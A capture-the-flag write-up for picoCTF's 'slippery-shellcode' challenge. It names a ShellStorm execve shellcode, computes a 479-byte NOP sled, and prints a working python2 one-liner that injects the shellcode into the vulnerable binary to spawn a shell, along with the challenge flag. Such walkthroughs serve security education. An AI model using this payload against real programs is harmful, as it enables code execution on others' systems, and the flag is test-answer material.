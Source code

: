 # slippery-shellcode

## Problem

> This program is a little bit more tricky. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/slippery-shellcode_5_5cea4ae04c57923484bda350da9f4015 on the shell server. Source.

* [Program](./vuln)
* [Source](./vuln.c)

## Solution

1. Get some quality shellcode from [ShellStorm](http://shell-storm.org/shellcode/)
2. I used `Linux/x86 - execve(/bin/bash, [/bin/sh, -p], NULL) - 33 bytes by Jonathan Salwan` at <http://shell-storm.org/shellcode/files/shellcode-606.php>
3. The buffer is 512 bytes so buffer_size-payload_size=no_op_sled_size: `512-33=479`
4. Create payload 

```
(python2 -c "print '\x90'*479 + '\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80'" ; cat) | ./vuln
```

5. Run `cat flag.txt`

### Flag

`picoCTF{sl1pp3ry_sh311c0d3_ecc37b22}`